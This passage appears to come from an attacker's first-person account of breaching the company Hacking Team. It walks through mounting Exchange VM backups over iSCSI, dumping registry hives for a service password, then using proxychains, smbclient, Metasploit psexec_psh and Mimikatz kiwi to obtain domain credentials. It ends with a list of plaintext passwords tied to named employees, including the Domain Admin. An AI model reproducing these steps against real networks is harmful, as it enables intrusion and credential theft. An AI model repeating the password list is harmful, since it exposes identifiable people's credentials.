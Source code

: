 The way I solved it was:
iptables -t nat -A OUTPUT -d 192.168.200.72 -j DNAT --to-destination 127.0.0.1

And now, after:
iscsiadm -m node --targetname=iqn.2000-01.com.synology:synology-backup.name -p 192.168.200.72 --login

...the device file appears! We mount it:
vmfs-fuse -o ro /dev/sdb1 /mnt/tmp

and find backups of various virtual machines. The Exchange server seemed like
the most interesting. It was too big too download, but it was possible to
mount it remotely to look for interesting files:
$ losetup /dev/loop0 Exchange.hackingteam.com-flat.vmdk
$ fdisk -l /dev/loop0
/dev/loop0p1            2048  1258287103   629142528    7  HPFS/NTFS/exFAT

so the offset is 2048 * 512 = 1048576
$ losetup -o 1048576 /dev/loop1 /dev/loop0
$ mount -o ro /dev/loop1 /mnt/exchange/

now in /mnt/exchange/WindowsImageBackup/EXCHANGE/Backup 2014-10-14 172311
we find the hard disk of the VM, and mount it:
vdfuse -r -t VHD -f f0f78089-d28a-11e2-a92c-005056996a44.vhd /mnt/vhd-disk/
mount -o loop /mnt/vhd-disk/Partition1 /mnt/part1

...and finally we've unpacked the Russian doll and can see all the files from
the old Exchange server in /mnt/part1

[1] https://ht.transparencytoolkit.org/FileServer/FileServer/Hackingteam/InfrastrutturaIT/Rete/infrastruttura%20ht.pdf


# [ 10 - From backups to domain admin ]

What interested me most in the backup was seeing if it had a password or hash
that could be used to access the live server. I used pwdump, cachedump, and
lsadump [1] on the registry hives. lsadump found the password to the besadmin
service account:

_SC_BlackBerry MDS Connection Service
0000   16 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   62 00 65 00 73 00 33 00 32 00 36 00 37 00 38 00    b.e.s.3.2.6.7.8.
0020   21 00 21 00 21 00 00 00 00 00 00 00 00 00 00 00    !.!.!...........

I used proxychains [2] with the socks server on the embedded device and
smbclient [3] to check the password:
proxychains smbclient '//192.168.100.51/c$' -U 'hackingteam.local/besadmin%bes32678!!!'

It worked! The password for besadmin was still valid, and a local admin. I
used my proxy and metasploit's psexec_psh [4] to get a meterpreter session.
Then I migrated to a 64 bit process, ran "load kiwi" [5], "creds_wdigest", and
got a bunch of passwords, including the Domain Admin:

HACKINGTEAM  BESAdmin       bes32678!!!
HACKINGTEAM  Administrator  uu8dd8ndd12!
HACKINGTEAM  c.pozzi        P4ssword      <---- lol great sysadmin
HACKINGTEAM  m.romeo        ioLK/(90
HACKINGTEAM  l.guerra       4luc@=.=
HACKINGTEAM  d.martinez     W4tudul3sp
HACKINGTEAM  g.russo        GCBr0s0705!
HACKINGTEAM  a.scarafile    Cd4432996111
HACKINGTEAM  r.viscardi     Ht2015!
HACKINGTEAM  a.mino         A!e$$andra
HACKINGTEAM  m.bettini      Ettore&Bella0314
HACKINGTEAM  m.luppi        Blackou7
HACKINGTEAM  s.gallucci     1S9i8m4o!
HACKINGTEAM  d.milan        set!dob66